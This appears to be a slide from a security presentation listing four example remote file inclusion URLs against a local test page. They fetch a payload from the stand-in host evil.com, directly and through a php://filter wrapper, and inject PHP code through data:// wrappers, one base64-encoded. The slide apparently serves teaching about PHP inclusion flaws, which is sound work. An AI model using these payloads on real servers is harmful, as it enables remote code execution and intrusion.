

# Stream examples
http://localhost/fitest/rfi.php?page=http://evil.com/pwn.txt
http://localhost/fitest/rfi.php?page=php://filter/resource=http://evil.com/pwn.txt
http://localhost/fitest/rfi.php?page=data://text/plain,<?php+phpinfo();+?>
http://localhost/fitest/rfi.php?page=data://text/plain;base64,PD8gcGhwaW5mbygpOyBkaWUoKTs/Pg==